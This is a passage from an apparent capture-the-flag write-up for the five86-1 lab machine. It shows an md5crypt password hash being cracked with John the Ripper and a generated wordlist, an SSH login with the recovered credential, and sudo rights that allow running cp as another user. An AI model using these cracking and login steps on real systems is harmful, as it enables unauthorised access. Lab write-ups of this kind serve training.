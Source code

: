 Let's compile it and run it:

~~~
$ gcc permute.c -o permute
$ ./permute 10 > dict.txt
~~~

We now have a dictionary containing all password possibilities. Let's brute force the password with John:

~~~
kali@kali:/data/five86_1/files$ /data/src/john/run/john htpasswd --wordlist=dict.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
fatherrrrr       (douglas)
1g 0:00:05:34 DONE (2020-10-01 16:52) 0.002987g/s 144484p/s 144484c/s 144484C/s arrherrrrr..tthrerrrrr
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

After a while, we eventually find valid credentials: `douglas:fatherrrrr`. Let's connect as `douglas`:

~~~
kali@kali:/data/five86_1/files$ sshpass -p "fatherrrrr" ssh douglas@five86.box
Linux five86-1 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Oct  1 10:55:40 2020 from 172.16.222.128
douglas@five86-1:~$ id
uid=1005(douglas) gid=1005(douglas) groups=1005(douglas)
douglas@five86-1:~$ 
~~~

## douglas -> jen

Checking douglas privileges seems to indicate we'll need to switch to `jen`. Indeed, we can execute `cp` as `jen`.

~~~
douglas@five86-1:~$ sudo -l
Matching Defaults entries for douglas on five86-1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User douglas may run the following commands on five86-1:
    (jen) NOPASSWD: /bin/cp
~~~

